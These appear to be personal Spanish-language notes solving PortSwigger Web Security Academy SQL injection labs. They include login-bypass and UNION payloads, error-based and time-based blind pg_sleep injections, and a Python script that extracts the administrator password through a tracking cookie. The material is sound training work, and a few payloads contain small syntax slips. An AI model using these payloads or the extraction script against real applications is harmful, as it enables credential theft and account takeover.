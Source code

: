 
https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

``` sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```


To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

```sql
 '+ or 1=1+--'
```

https://portswigger.net/web-security/sql-injection/lab-login-bypass


To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

user :
```sql
' or 1=1 --'
```
password : 
```sql
' or 1=1 --'
```

Ya eres admin


https://0abc00d8040b051a829d20af0001007b.web-security-academy.net/

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. 

En burpsuite : 


```sql
' UNION SELECT @@version, NULL#
```


https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column


 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

```sql
+UNION+SELECT+NULL,username||'~'||password+FROM+users--``
```

![[Pasted image 20240929192606.png]]

Pones el usuario y contraseña del administrator y entras.


https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.

Entramos a burpsuite vamos a proxy y http history le damos a algun producto y ahora en su trackingId es donde vamos a meter SQL 

TrackingId=IaT0qIxBIdp2MCM9';   ERROR

Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'IaT0qIxBIdp2MCM9''. Expected  char

CAST( )  

IaT0qIxBIdp2MCM9' AND CAST((SELECT 1) as int)--     error bolean

' AND 1=CAST((SELECT username from users LIMIT 1) as int)--        
marca error pero aun asi te arroja el usuario entonces tambein podemos sacar su comtraseña.

![[Pasted image 20240930115440.png]]

' AND 1=CAST((SELECT password from users LIMIT 1) as int)--        

![[Pasted image 20240930115644.png]]

6osx29m5gj7vgwa99fxj


https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

#### Vulnerable parameter - tracking cookie

Goals -> exploit time-based blind SQLi to uotput the admin password

login as the admin user

#### Confirmar que es vulnerable

' || pg_sleep(10)--

#### Confirmar que existe la tabla de usuarios en la base de datos

Aqui lo que estamos haciendo es ver si se tarda 10 segundos es porque es verdad lo que le pedimos y si tarda 1 segundo o poquito es falso entonces asi podemos hacer preguntas a la base de datos,

' || (select case when (1=1) then pg_sleep(10) else pg_sleep(-1) end)--

' || (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)--

' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--

Enumarte password lenght

Aqui le ponermos que si la contraseña tienen 1 caracter y nos dice que si pero le ponemos 25 y dice que no lo que significa que esta entre 1 y 25.

' || (select case when (username='administrator' and LENGTH(password)>1) then pg_sleep(10) else pg_sleep(-1) end from users)--


' || (select case when (username='administrator' and LENGTH(password)>25) then pg_sleep(10) else pg_sleep(-1) end from users)--

Lo que hacemos para ver es lo mandamos a intruder le damos clear seleccionamos el 1 y lo configuramos en la parte de payloads le ponemos numbre del 1 al 25 luego nos vamos a resource pool y le ponemos en custom y en la parte de maximum number request le ponemos uno nos regresamos a payloads y le damos iniciar ataque.

![[Pasted image 20240930123451.png]]

Llega hasta 20

' || (select case when (username='administrator' and LENGTH(password)>20) then pg_sleep(10) else pg_sleep(-1) end from users)--

Enumerate password

' || (select case when (username='administrator' and substring(password,1,1='a') then pg_sleep(10) else pg_sleep(-1) end from users)--

hacemos un script en python para poder hace esto

``
```python
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def sqli_password(url):
    password_extracted = ""
    for i in range(1,21):
        for j in range(32,126):
            sql_payload = "' || (select case when (username='administrator' and ascii(substring(password,%s,1))='%s') then pg_sleep(10) else pg_sleep(-1) end from users)--" %(i,j)
            sql_payload_encoded = urllib.parse.quote(sql_payload)
            cookies = {'TrackingId': '4kvqBxnpvcbcGVXk' + sql_payload_encoded, 'session': 'EI9T2L5PowgzjIUPcILvNp7IoJPvjvPN'}
            r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
            if int(r.elapsed.total_seconds()) > 9:
                password_extracted += chr(j)
                sys.stdout.write('\r' + password_extracted)
                sys.stdout.flush()
                break
            else:
                sys.stdout.write('\r' + password_extracted + chr(j))
                sys.stdout.flush()


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Retreiving administrator password...")
    sqli_password(url) 

if __name__ == "__main__":
    main()
```

Primero agregamos la extensión de `cookie-editor` para sacar el `trackingId` y `session` y lo corremos ->

```bash
sudo archivo.py "url"
```

![[Pasted image 20240930135508.png]]

ls506mhf21movd640ycq
y entramos.


https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

![[Pasted image 20240930145315.png]]

hay un tipo de WAF

1 UNION SELECT username || '~' || password FROM users

![[Pasted image 20240930145743.png]]